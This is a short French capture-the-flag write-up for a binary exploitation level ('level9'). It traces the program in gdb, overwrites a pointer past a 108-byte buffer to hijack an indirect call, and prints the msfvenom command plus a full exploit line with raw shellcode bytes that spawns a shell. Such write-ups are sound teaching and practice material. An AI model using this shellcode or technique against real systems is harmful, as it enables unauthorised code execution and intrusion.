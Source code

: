 Pour ce challengeje n ai pas eu besoin de connaitre le c++, j'y suis aller stepbystep avec gdb
*main+136 on recupere argv[1]+108 dans le valeur de eax et avec 0x0804a078 pour adresse.
*main+140: La valeur de argv[1]+108 sur 4 octets deviens l adresse de eax, on va donc lui mette l'adresse actuelle + 4 octets (0x0804a07c)
*main+144: La valeur de la nouvelle adresse de eax devient l'adresse de edx, on va lui mettre l adresse de notre shellcode.
*main+159: L'adresse de edx est call, qui contient notre shellcode

Shellcode:
Nous avons 108 octets pour placer notre shellcode avant argv[1]+108 afin de generer un shellcode de 64 bytes, j ai utiliser msfvenom comme ceci:
msfvenom -p 'linux/x86/exec' CMD='sh' -a 'x86' --platform 'linux' -f 'c' -b '\x00\x09\x0a\x20'
afin de trouver l adresse de mon exploit, j ai pris l adresse de argv[1]+108 et je lui ais soustrais 64 (longueur du shellcode qui le precede) comme ceci:
(gdb) p/x 0x804a078-64

On obtient donc un shell avec la commande suivante:
./level9 $(python -c "print 'B' * (108-64) + '\x2b\xc9\x83\xe9\xf6\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\xf3\x43\x6c\x98\x83\xee\xfc\xe2\xf4\x99\x48\x34\x01\xa1\x25\x04\xb5\x90\xca\x8b\xf0\xdc\x30\x04\x98\x9b\x6c\x0e\xf1\x9d\xca\x8f\xca\x1b\x40\x6c\x98\xf3\x30\x04\x98\xa4\x10\xe5\x79\x3e\xc3\x6c\x98' + '\x7c\xa0\x04\x08' + '\x38\xa0\x04\x08'")
